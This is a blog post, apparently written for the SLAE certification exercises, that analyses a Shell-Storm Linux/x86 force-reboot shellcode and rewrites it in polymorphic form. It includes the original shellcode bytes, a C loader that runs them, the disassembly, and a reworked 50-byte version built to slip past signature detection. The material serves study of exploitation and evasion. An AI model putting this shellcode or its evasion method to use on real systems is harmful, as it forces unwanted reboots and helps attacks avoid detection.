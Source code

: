 ```yaml
---
layout: post
title: SLAE 6.1 - Shell-Storm Polymorphism - force reboot
date:   2019-03-04
categories: [SLAE, Assembly]
---
```


This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

[http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

The sixth question for the SLAE exam is to create polymorphic versions of 3 shellcodes from Shell-Storm to attempt to beat pattern matching, this is part 1 of 3 for this question.  The requirements are:
* Select a linux/x86 shellcode from Shell-Storm.org
* The polymorphic versions cannot be larger than 150% of the original shellcode
* Bonus points for making it shorter in length

The first piece of shellcode we will try to create a polymorphic version of will be:

http://shell-storm.org/shellcode/files/shellcode-831.php
```
**********************************************
* Linux/x86 Force Reboot shellcode 36 bytes  *
**********************************************
* Author: Hamza Megahed                      *
**********************************************
* Twitter: @Hamza_Mega                       *
**********************************************
* blog: hamza-mega[dot]blogspot[dot]com      *
**********************************************
* E-mail: hamza[dot]megahed[at]gmail[dot]com *
**********************************************

xor    %eax,%eax
push   %eax
push   $0x746f6f62
push   $0x65722f6e
push   $0x6962732f
mov    %esp,%ebx
push   %eax
pushw  $0x662d
mov    %esp,%esi
push   %eax
push   %esi
push   %ebx
mov    %esp,%ecx
mov    $0xb,%al
int    $0x80

**********************************************

#include <stdio.h>
#include <string.h>
 
char *shellcode = "\x31\xc0\x50\x68\x62\x6f\x6f\x74\x68\x6e"
                  "\x2f\x72\x65\x68\x2f\x73\x62\x69\x89\xe3"
                  "\x50\x66\x68\x2d\x66\x89\xe6\x50\x56\x53"
                  "\x89\xe1\xb0\x0b\xcd\x80";

int main(void)
{
fprintf(stdout,"Length: %d\n",strlen(shellcode));
(*(void(*)()) shellcode)();
return 0;
}
```
It says it is a force reboot shellcode.  Let's do some analysis before we run it just to verify that it does what it claims to do.

With how short the shellcode is, I'll check the instructions with ndisasm for a quick overview.
```
python -c "print '\x31\xc0\x50\x68\x62\x6f\x6f\x74\x68\x6e\x2f\x72\x65\x68\x2f\x73\x62\x69\x89\xe3\x50\x66\x68\x2d\x66\x89\xe6\x50\x56\x53\x89\xe1\xb0\x0b\xcd\x80'" | ndisasm -u -
00000000  31C0              xor eax,eax
00000002  50                push eax
00000003  68626F6F74        push dword 0x746f6f62
00000008  686E2F7265        push dword 0x65722f6e
0000000D  682F736269        push dword 0x6962732f
00000012  89E3              mov ebx,esp
00000014  50                push eax
00000015  66682D66          push word 0x662d
00000019  89E6              mov esi,esp
0000001B  50                push eax
0000001C  56                push esi
0000001D  53                push ebx
0000001E  89E1              mov ecx,esp
00000020  B00B              mov al,0xb
00000022  CD80              int 0x80
00000024  0A                db 0x0a
```
Summarizing what I am seeing at a high level before we dig in to more details:
```
* push null byte
* push what looks like a string
* 1st arg is the string
* push another null
* push another value (string)
* store string address in esi
* push null
* push 2nd string address
* push 1st string address
* move this struct into our 2nd arg
* syscall 11 - execve
```
So we have execve(string1, {string1 string2})

Let's check the strings:
```
>>> binascii.unhexlify('746f6f62')
'toob'
>>> binascii.unhexlify('65722f6e')
'er/n'
>>> binascii.unhexlify('6962732f')
'ibs/'
>>> binascii.unhexlify('662d')
'f-'
```
Little Endian - first string reads: /sbin/reboot

second string reads: -f

So our command is execve('/sbin/reboot', {'/sbin/reboot','-f'},0)

Now that we know the call it makes, I know what to expect and to look for.  Running it does restart the computer.

Let's begin making a polymorphic version of this..

This is a pretty short piece of shellcode so we can try to mix it up as much as we possible.. One of the requirements is that our version cannot be greater than 150% of the original. Given that our original is 36 bytes, we have to fit within 54 bytes.

The original starts by zeroing out EAX, which is a creative solution since EAX needs to be zeroed out at the end to mov 0xb into AL for the syscall.  I'll be using EDX as the null and just zero EAX later on right before the syscall. 

We can zero EDX with the instruction "cdq" which is a 1 byte opcode.  

The next step is to push "/sbin/reboot" to the stack, let's just split this so that we push word values instead of dword values. This might avoid detection on the dword pushes. Then, move the stack pointer into EBX, I am just going to leave this instruction.  So we are currently at:
```nasm
 cdq
 push edx

 push word 0x746f
 push word 0x6f62
 push word 0x6572
 push word 0x2f6e
 push word 0x6962
 push word 0x732f
 mov ebx, esp
```
Next, we are going to push a null terminated '-f' to the stack and move it's address in to ESI for safe keeping. push EDX since it is our NULL value and push the string '-f'. 
```nasm
 push edx
 push word 0x662d
 ```
Now we need to change this mov esi, esp.  I will use EAX since we will be changing it soon anyways.. EAX can be zero'd out by subtracting by itself to get 0, then we can just add esp to it.  So, we are essentially doing a mov eax, esp but using sub and add instructions.
 ```nasm
 sub eax, eax
 add eax, esp
```
Next, we create the args struct with a few push instructions.  I will push edx (NULL), push eax ('-f'), push ebx ('/sbin/reboot') then we need to move our stack pointer into ecx.  Let's do the sub - add replacement again for the mov.
```nasm
push edx
push eax
push ebx
sub ecx, ecx
add ecx, esp
```
The last instructions move 0xb into AL and then makes the syscall.  Since I decided to use EDX as the null and EAX has values in it, I have to zero it out and then move the right syscall value into AL.  Again, sub add replacement here, then the int 0x80.
```nasm
sub eax, eax
add al, 0xb
int 0x80
```
All done, our total bytes is 50 and it runs properly!  Let's put them side by side to show the differences.
```nasm
xor eax,eax                          cdq     
push eax                             push edx
push dword 0x746f6f62                push word 0x746f
                                     push word 0x6f62
push dword 0x65722f6e                push word 0x6572
                                     push word 0x2f6e
push dword 0x6962732f                push word 0x6962
                                     push word 0x732f
mov ebx,esp                          mov ebx, esp

push eax                             push edx
push word 0x662d                     push word 0x662d
mov esi,esp                          sub eax, eax
                                     add eax, esp
push eax                             push edx
push esi                             push eax
push ebx                             push ebx
mov ecx,esp                          sub ecx, ecx
                                     add ecx, esp
mov al,0xb                           sub eax, eax
                                     add al, 0xb
int 0x80                             int 0x80
```
